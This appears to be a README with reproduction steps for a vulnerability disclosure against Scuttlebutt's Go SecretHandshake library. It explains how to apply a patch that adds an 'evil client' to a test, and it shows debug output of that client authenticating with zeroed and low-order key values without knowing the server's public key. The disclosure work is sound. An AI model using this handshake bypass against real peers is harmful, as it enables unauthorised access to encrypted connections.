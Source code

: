 # Reproduction Steps

The .patch file was produced with git to be applied Scuttelbutt's Go Implementation. 
The attack code is written in one of the test functions, the test spins up a server
and client and connects them over TCP on the local interface. The attack code modifies the 
client and is able to connect to the server without knowing the server's public key. 

Steps

 1) Firstly, ensure you have a working Go environment and Go path. 
 2) In your go path, git clone the Scuttlebutt SecretHandshake 
 [repo](https://github.com/cryptoscope/secretstream)
 3) Check you can build and test the package by issuing `go test`
 4) Apply the provided patch file using `git am --signoff < [PATCHFILEPATH]`
 5) Issue `go test` again. 
 6) You should see debug output similar to:

 ```
     Evil Client: Sent Client Challenge
     Evil Client: Verified Server Challenge
     Evil Client: Box Payload = 010000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000 
     Evil Client: Sent Client Auth
     Server: Checking Client Auth
     Server: S_LTK and C_EPH = 0000000000000000000000000000000000000000000000000000000000000000 
     Server: Box Key = e0d57540ace06f738ffb905d72bbfb12fcc1913b60d28df393d156fc1cd9a9b7 
     Server: Opened Box From Client
     Server: Client Public = 0100000000000000000000000000000000000000000000000000000000000000
     Server: Client Sig = 01000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
     Made it to end of verification function
     LHS = 0100000000000000000000000000000000000000000000000000000000000000 
     RHS = 0100000000000000000000000000000000000000000000000000000000000000 
     Server: Verified Client Signature
     Evil Client: Opened Box From Server
     Evil Client: Finished Checking Server Accept (ignoring Signature)
     s.secret = 0000000000000000000000000000000000000000000000000000000000000000 
     s.localPublic = 0100000000000000000000000000000000000000000000000000000000000000 
     Evil Client connected WITHOUT knowing key! 
     panic: Fail in goroutine after TestNet has completed
 ```

 The final panic is an artifact of our modifications to the evil client and not otherwise an issue. Note that only the client code
 was changed in this attack and the client was not told the server's public key before connecting. It is probably most instructive to
 examine the diff to understand how the attack is performed.